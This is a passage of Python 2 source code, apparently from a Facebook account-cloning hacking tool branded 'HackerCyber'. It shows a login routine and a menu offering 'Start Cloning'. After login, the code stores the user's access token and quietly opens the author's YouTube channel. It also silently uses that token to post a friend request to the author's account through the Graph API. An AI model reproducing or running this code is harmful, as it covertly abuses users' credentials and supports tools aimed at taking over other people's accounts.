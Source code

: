 				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;95mLogin Successful...'
				os.system('xdg-open https://m.youtube.com/channel/UCRrRgcJjsnNm5Bi5ZenRGnw')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\x1b[1;91mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\x1b[1;92mYour Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\x1b[1;93mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()


def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
	except KeyError:
		os.system('clear')
		print"\033[1;91mYour Account is on Checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\x1b[1;92mThere is no internet connection"
		keluar()
	os.system("clear") #Dev:HackerCyber
	print logo
	print "  \033[1;95m«-----◥◤◥◤◥◤◥◤◥◤◥◤◥◤----\033[1;93mLogged in User Info\033[1;95m----◥◤◥◤◥◤◥◤◥◤◥◤◥◤-----»"
	print "	   \033[1;94m Name\033[1;93m:\033[1;92m"+nama+"\033[1;97m               "
	print "	   \033[1;97m ID\033[1;93m:\033[1;92m"+id+"\x1b[1;97m              "
	print "\033[1;95m◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤\033[1;96mHackerCyber\033[1;95m◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤"
	print "\033[1;97m--\033[1;92m> \033[1;92m1.\x1b[1;92mStart Cloning..."
	print "\033[1;97m--\033[1;91m> \033[1;91m0.\033[1;91mExit            "
	pilih()
